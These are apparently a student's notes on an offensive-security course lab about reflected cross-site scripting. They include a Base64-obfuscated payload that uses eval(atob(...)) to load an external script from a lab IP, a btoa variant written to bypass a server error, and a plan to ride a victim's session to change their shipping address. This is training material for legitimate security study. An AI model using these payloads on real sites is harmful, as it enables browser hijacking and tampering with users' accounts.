 As we found when we were displaying an alert, we'll also need to surround our payload in plus signs and quotes. Our final payload, including single quotes and plus signs, is listed below.

```js
'+eval(atob('alF1ZXJ5LmdldFNjcmlwdCgnaHR0cDovLzE5Mi4xNjguNDUuMjMzL3hzc2NpbmNvLmpzJykK'))+'
```

Let's submit this payload to the application. We will most likely receive an error. If the error isn't the first message displayed, it might be the second after our alert is dismissed.

mine got this error as well
![[Pasted image 20241223155605.png]]
This error message causes a problem. Sometimes our payload is executed first, but other times the error is displayed first. When an alert is displayed, execution is paused and our payload might not be executed until the user dismisses it. Let's investigate the JavaScript console to determine what might have gone wrong.
![[Pasted image 20241223155751.png]]
Here, we'll find the server informing us of an "Invalid character found in the request target". This is most likely because of the value returned by the `getScript()` function. We can fix this by Base64-encoding the entire response using the `btoa()` function. We'll have to wrap the entire `eval()` in this function.

```js
'+btoa(eval(atob('alF1ZXJ5LmdldFNjcmlwdCgnaHR0cDovLzE5Mi4xNjguNDUuMjMzL3hzc2NpbmNvLmpzJykK')))+'
```

![[Pasted image 20241223160900.png]]

Excellent! It seems our external JavaScript file was loaded. Let's click _OK_ to close the dialog window.

While this proof of concept included a simple script, the important concept is that we injected an external JavaScript file. Now that we've done that, let's work on a more complicated payload.

Before continuing to the next section, follow the steps above and use the XSS vulnerability to load an external JavaScript file.

-------

#### 6.2.4. Exploiting Reflected XSS

Let's assess what we know about the application and what we might be able to do with cross-site scripting. The application uses a JSESSIONID cookie to track user sessions, but the cookie has the `HttpOnly` attribute set. Because the browser will block JavaScript from accessing the `JSESSIONID` cookie, we won't be able to steal another user's cookie with XSS.

That being said, the browser will allow JavaScript to send requests that include the cookie as long as the cookie is scoped to the requested domain. Perhaps we can inject JavaScript code that will target functionality within the application.

Let's explore the application as an authenticated user so we can familiarize ourselves with the functionality that is available. Let's sign in using the previously-created victim account and click on `Welcome` > `My Account`.

made an account with `test:test`
![[Pasted image 20241223173427.png]]
There aren't a lot of options here. The "change password" functionality requires the user's current password so we wouldn't be able to change a victim's password. However, we may be able to change their shipping address.
